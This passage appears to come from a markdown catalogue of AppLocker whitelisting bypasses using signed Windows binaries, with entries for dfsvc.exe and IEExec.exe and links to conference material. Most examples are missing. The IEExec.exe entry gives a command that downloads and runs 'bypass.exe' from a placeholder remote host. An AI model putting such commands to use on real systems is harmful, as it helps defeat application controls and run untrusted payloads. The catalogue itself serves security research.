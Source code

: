 ```
Missing Example
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT   

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:  
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
   


## dfsvc.exe

```
Missing Example
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT   

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:  
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf



## IEExec.exe

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT
